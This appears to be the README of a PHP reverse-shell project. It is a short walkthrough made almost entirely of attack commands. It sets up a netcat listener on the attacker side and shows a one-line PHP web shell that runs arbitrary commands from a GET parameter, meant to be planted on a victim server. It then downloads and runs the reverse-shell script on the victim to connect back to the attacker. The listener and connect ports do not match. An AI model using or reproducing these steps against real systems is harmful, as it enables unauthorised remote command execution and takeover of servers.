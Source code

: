 # php-smart-reverse-shell

Attacker PC wait for terminal
```shell
nc -l 127.0.0.1 4444
```

Plant somehow a PHP code to execute commands
```PHP
<?php echo shell_exec($_GET['command']);?>
```

Victim PC download smart reverse shell and connect to Attack PC
```shell
wget -O php-smart-reverse-shell.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/php-smart-reverse-shell.php
php ./php-smart-reverse-shell.php 127.0.0.1 1234
```

